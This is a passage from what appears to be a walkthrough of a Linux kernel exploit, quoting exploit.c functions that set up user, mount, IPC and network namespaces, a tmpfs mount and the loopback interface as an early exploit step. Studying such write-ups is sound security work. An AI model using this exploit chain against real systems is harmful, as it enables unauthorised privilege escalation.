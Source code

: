 ### Step1.3: Setup namespace
- [exploit.c#L641](./exploit.c#L641):

```c
if (!setup_namespace())
  return EXIT_FAILURE;
```

- [exploit.c#L209](./exploit.c#L209):

```c
bool setup_namespace(void)
{
  int real_uid = getuid();
  int real_gid = getgid();

  if (unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWIPC | CLONE_NEWNET) < 0) {
    perror("unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWIPC)");
    return false;
  }

  if (!write_to_file("/proc/self/setgroups", "deny"))
    return false;

  if (!write_to_file("/proc/self/uid_map", "0 %d 1\n", real_uid))
    return false;

  if (!write_to_file("/proc/self/gid_map", "0 %d 1\n", real_gid))
    return false;

  mkdir(TMPFS_MOUNT_POINT, 0644);
  if (mount("none", TMPFS_MOUNT_POINT, "tmpfs", 0, NULL) < 0) {
    fprintf(stderr, "mount %s(type: tmpfs): %s\n", TMPFS_MOUNT_POINT, strerror(errno));
    return false;
  }

  if (!set_if_up("lo"))
    return false;

  return true;
}
```

- [exploit.c#L187](./exploit.c#L187):

```c
bool set_if_up(const char *ifname)
{
  int fd = socket(AF_INET, SOCK_DGRAM, 0);
  if (fd < 0) {
    perror("socket");
    return false;
  }

  struct ifreq ifr;
  memset(&ifr, 0, sizeof(ifr));
  strncpy(ifr.ifr_name, ifname, IFNAMSIZ);
  ifr.ifr_flags |= IFF_UP;
  if (ioctl(fd, SIOCSIFFLAGS, &ifr) < 0) {
    perror("ioctl-SIOCSIFFLAGS");
    close(fd);
    return false;
  }

  close(fd);
  return true;
```